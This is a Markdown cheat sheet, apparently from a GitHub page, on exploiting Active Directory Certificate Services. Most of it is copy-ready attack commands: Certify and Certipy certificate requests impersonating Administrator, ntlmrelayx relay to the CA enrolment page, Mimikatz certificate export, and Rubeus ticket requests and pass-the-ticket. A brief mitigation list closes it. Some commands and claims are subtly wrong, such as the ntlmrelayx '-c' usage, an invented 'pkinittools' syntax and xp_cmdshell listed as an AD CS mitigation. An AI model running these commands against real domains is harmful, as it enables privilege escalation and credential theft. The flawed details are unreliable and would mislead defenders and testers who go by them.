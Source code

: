 
### **Active Directory Certificate Services (AD CS) Exploitation Cheat Sheet**

Active Directory Certificate Services (AD CS) provides public key infrastructure (PKI) for an organization. While it's a powerful feature for managing certificates, it also presents potential attack vectors that can be exploited if misconfigured or improperly secured. Below is a cheat sheet that outlines the theory, tools, and examples of exploiting AD CS.

---

### **1. **Understanding the Basics of AD CS Exploitation**

- **AD CS Components**:
  - **Certification Authority (CA)**: Issues and manages certificates.
  - **Certificate Templates**: Predefined configurations for issuing certificates.
  - **Enrollment Services**: Services that allow users and computers to request certificates.

- **Common Attack Scenarios**:
  - **Privilege Escalation**: Abuse of certificate templates to obtain elevated access.
  - **Persistence**: Obtaining a certificate that can be used for long-term access.
  - **Lateral Movement**: Using certificates to move across systems within the network.

---

### **2. **Common Vulnerabilities and Exploits**

- **Vulnerable Certificate Templates**:
  - Misconfigured templates allowing any authenticated user to enroll for a certificate.
  - Templates that issue certificates with `Enhanced Key Usage` (EKU) values that allow client or domain authentication.
  - Templates that allow exporting private keys.

- **Relay Attacks**:
  - **NTLM Relaying to AD CS**: Allows an attacker to relay NTLM authentication to AD CS and request a certificate that can be used for domain authentication.

- **Certificate Theft**:
  - **Extracting Certificates**: Stealing certificates from disk or memory that can be used to impersonate users or computers.

- **Key Persistence**:
  - **Golden and Silver Tickets with Certificates**: Using certificates to maintain long-term access to an environment, similar to Kerberos golden and silver tickets.

---

### **3. **Tools for AD CS Exploitation**

#### **1. Certify**
- **Certify** is a tool developed by SpecterOps for enumerating and exploiting AD CS.

##### **Usage Example**:
- **Enumerate Certificate Templates**:
  ```powershell
  Certify.exe find /vulnerable
  ```
  
- **Request a Certificate**:
  ```powershell
  Certify.exe request /ca:"<CA_Name>" /template:"<Template_Name>" /altname:"<User_Name>"
  ```

#### **2. Rubeus**
- **Rubeus** is a C# toolset for raw Kerberos interaction and abuses.

##### **Usage Example**:
- **Request a TGT using a certificate**:
  ```powershell
  Rubeus.exe asktgt /user:<username> /certificate:<path_to_pfx>
  ```

- **Pass-the-Ticket with a certificate**:
  ```powershell
  Rubeus.exe ptt /ticket:<path_to_ticket>
  ```

#### **3. Impacket**
- **Impacket** is a collection of Python classes for working with network protocols, often used for relaying attacks.

##### **Usage Example**:
- **NTLM Relay to AD CS**:
  ```bash
  ntlmrelayx.py -t http://<CA_Server>/certsrv/certfnsh.asp -v -c <command>
  ```

#### **4. Certipy**
- **Certipy** is a Python toolset for enumerating and exploiting AD CS.

##### **Usage Example**:
- **Enumerate Vulnerable Certificate Templates**:
  ```bash
  certipy find -vulnerable
  ```

- **Request a Certificate**:
  ```bash
  certipy request -template <Template_Name> -ca <CA_Server>
  ```

#### **5. Mimikatz**
- **Mimikatz** is a well-known post-exploitation tool with capabilities for interacting with certificates.

##### **Usage Example**:
- **Export Certificates from Memory**:
  ```bash
  mimikatz.exe "crypto::cng exportCertificates"
  ```

#### **6. PKINITtools**
- **PKINITtools** can be used to abuse PKINIT to authenticate with a Kerberos TGT using a certificate.

##### **Usage Example**:
- **Use a Certificate for PKINIT**:
  ```bash
  pkinittools -user <username> -pfx <path_to_pfx> -domain <domain> -dc-ip <dc_ip>
  ```

---

### **4. **Exploitation Techniques**

#### **1. Abuse Misconfigured Certificate Templates**

- **Objective**: Obtain a certificate that allows for elevated privileges, such as authenticating as another user.
  
- **Steps**:
  1. **Enumerate Certificate Templates**: Use tools like `Certify` or `Certipy` to enumerate certificate templates and identify misconfigurations.
  2. **Request a Certificate**: Request a certificate for a user with elevated privileges using a vulnerable template.
  3. **Use the Certificate**: Use the certificate to authenticate as the target user.

##### **Example**:
```powershell
Certify.exe request /ca:"CA01\corp-CA" /template:"VulnerableTemplate" /altname:"Administrator"
```

#### **2. NTLM Relay to AD CS**

- **Objective**: Relay NTLM authentication to obtain a certificate from AD CS.

- **Steps**:
  1. **Set Up a Relay**: Use `ntlmrelayx` to relay NTLM authentication to AD CS.
  2. **Request a Certificate**: Relay the authentication to request a certificate.
  3. **Use the Certificate**: Use the obtained certificate to authenticate as the relayed user.

##### **Example**:
```bash
ntlmrelayx.py -t http://ca-server/certsrv/certfnsh.asp -v -c "Certify.exe request /ca:'CA01\corp-CA' /template:'Machine' /altname:'Administrator'"
```

#### **3. Steal and Use Certificates**

- **Objective**: Steal and use a certificate to impersonate a user.

- **Steps**:
  1. **Extract Certificates**: Use `Mimikatz` or other tools to extract certificates from disk or memory.
  2. **Use the Certificate**: Import the certificate and use it for authentication.

##### **Example**:
```powershell
mimikatz.exe "crypto::cng exportCertificates"
```

#### **4. Persist with Certificates (Golden/Silver Tickets)**

- **Objective**: Maintain persistent access using a certificate.
  
- **Steps**:
  1. **Obtain a Certificate**: Use a certificate obtained from a vulnerable template or relayed NTLM authentication.
  2. **Authenticate with the Certificate**: Use `Rubeus` or `Certify` to authenticate and request a TGT.
  3. **Pass the Ticket**: Use `Rubeus` to pass the ticket and maintain access.

##### **Example**:
```powershell
Rubeus.exe asktgt /user:Administrator /certificate:path_to_certificate.pfx
Rubeus.exe ptt /ticket:<TGT_Ticket>
```

---

### **5. **Defense and Mitigation Strategies**

- **Audit and Harden Certificate Templates**: Regularly audit certificate templates to ensure they do not allow unintended users to request certificates.
- **Monitor and Alert on Certificate Usage**: Implement monitoring to detect unusual certificate requests or usage patterns.
- **Limit `xp_cmdshell` and NTLM Usage**: Disable `xp_cmdshell` where possible and limit the use of NTLM authentication.
- **Enable Extended Protection for Authentication (EPA)**: Enable EPA to protect against NTLM relay attacks.

---

